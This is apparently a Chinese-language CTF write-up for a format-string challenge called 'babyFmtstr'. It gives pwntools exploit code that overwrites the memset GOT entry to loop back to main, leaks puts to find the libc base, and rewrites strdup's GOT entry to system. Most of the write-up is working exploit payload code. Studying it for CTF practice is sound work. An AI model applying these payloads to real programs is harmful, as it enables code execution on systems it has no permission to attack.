

# babyFmtstr  

发现在结束格式化字符串漏洞的函数后在紧接着的函数中调用了memset，可以把menset.got改为main函数地址达到重复利用漏洞的目的。  
```
payload_1 = b"%14c%11$hhn%133c%12$hhnA" + p64(memset_got+1)+p64(memset_got) 
```
第二次利用漏洞时泄露put函数的地址得到libcbase。  
```
payload_2=b'aaaa%9$s'+p64(puts_got)
p.sendlineafter(b"please input name:\n",payload_2)
p.recvuntil(b'aaaa')
pause()
puts_addr=u64(p.recv(6).ljust(8,b'\x00'))
```
第三次将strduo.got改为system地址。  
```
system_addr=libcbase+libc.dump('system')
print(hex(system_addr))
x = system_addr >>16 & 0xffff
y = system_addr & 0xffff
if x>y:
    payload_3=flat(b'%',str(y).encode(),b'c%12$hn%',str(x-y).encode(),b'c%13$hn').ljust(32,b'a')
    payload_3+=flat(strdup_got,strdup_got+2)
else:
    payload_3=flat(b'%',str(x).encode(),b'c%12$hn%',str(y-x).encode(),b'c%13$hn').ljust(32,b'a')
    payload_3+=flat(strdup_got+2,strdup_got)
```